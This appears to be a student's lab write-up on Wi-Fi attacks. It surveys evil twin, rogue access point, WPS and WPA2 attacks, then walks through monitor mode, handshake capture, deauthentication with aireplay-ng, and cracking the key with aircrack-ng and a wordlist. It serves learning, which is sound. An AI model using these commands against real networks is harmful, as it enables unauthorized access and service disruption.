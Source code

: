 ```yaml
---
title: If you'd like to WPA, press the star key!
draft: false
tags:
  - cybersecurity
  - wireless
---
```


WiFi signals are broadcasted with a unique **SSIS**
We can connect if we know the pre-shared key **PSK**

### Wi-Fi's Pivotal Role in Organizations
A malicious actor from the outside could still see the broadcasted Wi-Fi SSID

### Attacks on Wi-Fi
- **Evil twin attack** : the attacker creates a fake access point that has similar name to the trusted one. The attack starts with the attacker sending de-authentication packets to all the users connected to their Wi-Fi
- **Rogue access point**: The attacker sets up an open Wi-Fi access point near or inside the organization's physical premises. Accidental join
- **WPS Attack**: 8-digit pin vulnerable. The attack is made by initiating a WPS handshake and capturing the router's response. The response contains information of the PIN for brute-force attack.
- **WPA/WPA2 cracking**: Attackers start by sending de-authentication packets to a legitimate user. When he disconnects they try to reconnect, and a 4way handshake with the router takes place. The attacker turns its adaptor into monitor mode and captures the handshake. Then bruteforce

### WPA/WPA2 Cracking

#### The 4-way Handshake
It's a process that helps a client device and a Wi-Fi router confirm they both have the right password or PSK:
- **Router sends a challenge**
- **Client responds with encrypted information**
- **Router verifies and sends confirmation**
- **Final check and connection established**


### The practical
`iw dev` shows any wireless devices and their configuration
```
phy#2 
	Interface wlan2 
		ifindex 5  
		wdev 0x200000001 
		addr 02:00:00:00:02:00 
		type managed 
		txpower 20.00 dBm
```

The `type` is managed, it/s a standard mode.

#### Scan nearby Wi-Fi
`sudo iw dev wlan2 scan`
Important information:
- **BSSID**
- Presence of **RSN (Robust Security Network)** indicates the network is using WPA2
- **Group and Pairwise ciphers** are **CCMP** Counter Mode with Cypher Block Chaining Message Authentication Code Protocol is the encryption methos used by WPA2
- **Authentication suites** value inside RSN is **PSK**
- `DS Parameter set` is channel 6. The channel refers to a specific frequency range within the broader Wi/Fi spectrum
- 2.4 ghz channels 1,6,11


#### Monitor Mode
Primarily used for network analysis and security auditing.
The interface listens to all wireless traffic on a specific channel
`sudo ip link set dev wlan2 down` to turn off the device
`sudo iw dev wlan2 set type monitor`
`sudo ip link set dev wlan2 up`


### The attack
In a first terminal we start capturing Wi-Fi traffic with `sudo airodump-ng wlan2`
Knowing the BSSID we run
`sudo airodump-ng -c 6 --bssid 02:00:00:00:00:00 -w output-file wlan2`
Targeting the specific network

In the second terminal we will launch the deauthentication attack
`sudo aireplay-ng -0 1 -a 02:00:00:00:00:00 -c 02:00:00:00:01:00 wlan2`
The second BSSID is the target

The we see the handshake and try to crack the PIN
`sudo aircrack-ng -a 2 -b 02:00:00:00:00:00 -w /home/glitch/rockyou.txt output*cap`

We found the key `fluffy/champ24`
We can connect
```bash
wpa_passphrase MalwareM_AP 'fluffy/champ24' > config
sudo wpa_suppicant -B -c config -i wlan2
```

